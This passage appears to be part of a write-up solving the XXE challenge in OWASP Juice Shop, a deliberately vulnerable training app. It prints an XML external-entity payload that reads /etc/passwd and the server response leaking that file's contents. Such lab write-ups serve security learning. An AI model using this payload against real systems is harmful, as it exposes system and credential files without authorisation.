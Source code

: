 ```
Being an OWASP challenge, let's use a sample XXE payload from the [OWASP XXE page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing).

```
root@kali ~/JuiceShop# cat xxe.xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Upload this to the complaint form, and voilà.

```
HTTP/1.1 410 Gone
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Type: application/json; charset=utf-8
Date: Tue, 07 Aug 2018 23:00:13 GMT
Connection: close
Content-Length: 1438

{
  "error": {
    "message": "B2B customer complaints via file upload have been deprecated for security reasons: <?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>root:x:0:0:root:/root:/bin/ashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemo... (xxe.xml)",
    "stack": "Error: B2B customer complaints via file upload have been deprecated for security reasons: <?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>root:x:0:0:root:/root:/bin/ashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemo... (xxe.xml)\n    at /juice-shop/routes/fileUpload.js:31:16\n    at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)\n    at next (/juice-shop/node_modules/express/lib/router/route.js:137:13)\n    at Array.<anonymous> (/juice-shop/node_modules/multer/lib/make-middleware.js:53:37)\n    at listener (/juice-shop/node_modules/on-finished/index.js:169:15)\n    at onFinish (/juice-shop/node_modules/on-finished/index.js:100:5)\n    at callback (/juice-shop/node_modules/ee-first/index.js:55:10)\n    at IncomingMessage.onevent (/juice-shop/node_modules/ee-first/index.js:93:5)\n    at IncomingMessage.emit (events.js:180:13)\n    at endReadableNT (_stream_readable.js:1106:12)\n    at process._tickCallback (internal/process/next_tick.js:178:19)"
  }
}
```

It didn't quite work as the file was truncated, but it did trip completion of the challenge.

![XXE](/img/owasp-juice-shop-v7.3.0/juice069.png)